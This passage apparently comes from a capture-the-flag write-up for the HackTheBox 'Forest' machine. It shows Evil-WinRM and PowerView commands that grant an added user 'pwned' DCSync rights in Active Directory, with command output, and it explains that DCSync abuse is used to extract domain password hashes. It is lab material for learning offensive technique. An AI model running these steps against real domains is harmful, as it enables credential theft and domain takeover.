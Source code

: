 ```bash
Account expires              Never

Password last set            5/11/2024 2:18:20 PM
Password expires             Never
Password changeable          5/12/2024 2:18:20 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/11/2024 2:27:41 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```

From the output, we have successfully added our new user `pwned` to the two groups.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> $SecPassword = ConvertTo-SecureString 'Pwn3d!!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwned', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> Add-DomainObjectAcl -Credential $Cred -TargetDomain htb.local -PrincipalIdentity 'pwned' -Rights DCSync
```


> **Note**: Before executing the commands above, ensure you had already imported PowerView. If not, simply:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> upload PowerView.ps1 .
                                        
Info: Uploading /home/oste/Desktop/CTF/HTB/Forest/PowerView.ps1 to C:\Users\svc-alfresco\Links\.
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Links> . .\PowerView.ps1
```


**What next?**

So abusing the DCSync rights in an Active Directory (AD) environment allows us to simulate the behavior of a Domain Controller (DC) and request sensitive account information from the DC or other DC's using the Directory Replication Service (DRS) Remote Protocol. This capability is extremely powerful for extracting domain credentials, including NTLM hashes and Kerberos tickets, which can abuse further for lateral movement or elevating privileges within the domain. We can do so using two techniques:
